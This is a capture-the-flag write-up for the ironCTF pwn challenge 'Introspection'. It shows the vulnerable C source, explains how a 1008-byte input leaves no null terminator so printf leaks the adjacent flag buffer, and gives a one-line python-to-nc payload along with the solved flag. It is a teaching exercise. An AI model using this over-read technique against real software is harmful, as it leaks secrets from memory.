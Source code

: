 # Introspection 

Solved by: @OS1RIS

## Question:

Know your inner self and get started with Pwn.

## Solution: 

1. View introspection.c source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    printf("\033[32m\"Introspection is the key to unlocking your fullest potential; knowing yourself is the first step.\"\033[0m\n\n");
    printf("                                                                                         - ChatGPT\n");
    printf("Have you thought about what you really wanted in life?\n");
    char flag[50];
    FILE *file = fopen("flag.txt", "r");
    if (file == NULL) 
    {
        printf("Error! flag.txt not found!");
        exit(1);
    }
    fread(flag, 1, 50, file);
    char buf[1008];
    printf(">> ");
    read(0, buf, 1008);
    printf("I wish for you that you get %s", buf);
}
```
The program reads user input into character buffer char buf[1008] using the read(0, buf, 1008) function. Since it allows 1008 bytes of input, we can send a payload exactly 1008 bytes long with a any single letters

2. Craft payload with exactly 1008 bytes
```py
python -c 'print(b"A"*1008)' | nc pwn.1nf1n1ty.team 31698
```

**Flag:** `ironCTF{W0w!_Y0u_Just_OverWrite_the_Nul1!}`


